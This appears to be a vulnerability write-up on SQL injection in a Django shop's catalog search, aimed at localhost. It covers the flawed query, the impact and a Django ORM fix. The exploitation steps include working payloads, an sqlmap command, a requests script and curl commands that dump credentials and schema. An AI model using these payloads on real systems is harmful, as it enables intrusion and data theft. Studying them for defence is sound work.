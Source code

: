 # SQL Injection Vulnerability Documentation

## Vulnerability Overview
**Type**: SQL Injection  
**Location**: `/catalog/?q=` search functionality  
**File**: `eshop/views.py` - `catalog_view` function (lines 360-396)  
**Severity**: Critical  
**OWASP Category**: A03:2021 – Injection  

## Technical Details

### Vulnerable Code
```python
raw_query = f"""
SELECT id, name, description, price, stock, created_at, updated_at 
FROM eshop_product 
WHERE name LIKE '%%{search_query}%%' 
OR description LIKE '%%{search_query}%%'
"""
cursor.execute(raw_query)
```

The vulnerability exists because user input from the `q` parameter is directly concatenated into the SQL query without any sanitization or parameterization.

## Exploitation Steps

### 1. Basic Boolean-Based Injection
**Payload**: `' OR '1'='1`  
**URL**: `http://localhost:8000/catalog/?q=' OR '1'='1`  
**Effect**: Returns all products in the database

### 2. Union-Based Injection
**Payload**: `' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--`  
**URL**: `http://localhost:8000/catalog/?q=' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--`  
**Effect**: Extracts usernames and password hashes

### 3. Time-Based Blind Injection
**Payload**: `'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--`  
**Effect**: Causes 5-second delay if condition is true

### 4. Error-Based Injection
**Payload**: `' AND 1=CAST((SELECT version()) AS int)--`  
**Effect**: Database version disclosed in error message

## Proof of Concept

### Using SQLMap
```bash
sqlmap -u "http://localhost:8000/catalog/?q=test" \
       --batch \
       --risk=3 \
       --level=5 \
       --dbs
```

### Manual Exploitation Script
```python
import requests

# Extract database name
payload = "' UNION SELECT NULL,current_database(),NULL,NULL,NULL,NULL,NULL--"
response = requests.get(f"http://localhost:8000/catalog/?q={payload}")
print(response.text)

# Extract table names
payload = "' UNION SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='public'--"
response = requests.get(f"http://localhost:8000/catalog/?q={payload}")
print(response.text)
```

## Impact Analysis

### Confidentiality Impact
- Access to all database contents
- User credentials exposure
- Personal information disclosure
- Business data theft

### Integrity Impact
- Data modification capability
- Product price manipulation
- Order tampering
- Account takeover

### Availability Impact
- Database resource exhaustion
- Denial of Service attacks
- Data deletion capability

## Remediation

### Immediate Fix
Replace the vulnerable code with parameterized queries:

```python
# Secure implementation using Django ORM
products = Product.objects.filter(
    Q(name__icontains=search_query) | 
    Q(description__icontains=search_query)
)
```

### Additional Security Measures
1. **Input Validation**: Whitelist allowed characters
2. **Prepared Statements**: Use parameterized queries
3. **Least Privilege**: Database user with minimal permissions
4. **WAF Rules**: Block common SQL injection patterns
5. **Security Headers**: Add X-Content-Type-Options

## Testing Commands

### Detection
```bash
# Check if vulnerable
curl "http://localhost:8000/catalog/?q='+OR+'1'='1"

# Time-based detection
time curl "http://localhost:8000/catalog/?q=';SELECT+pg_sleep(5)--"
```

### Exploitation
```bash
# Extract database version
curl "http://localhost:8000/catalog/?q='+UNION+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL--"

# Extract current user
curl "http://localhost:8000/catalog/?q='+UNION+SELECT+NULL,current_user,NULL,NULL,NULL,NULL,NULL--"
```

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [SQLMap Documentation](https://sqlmap.org/)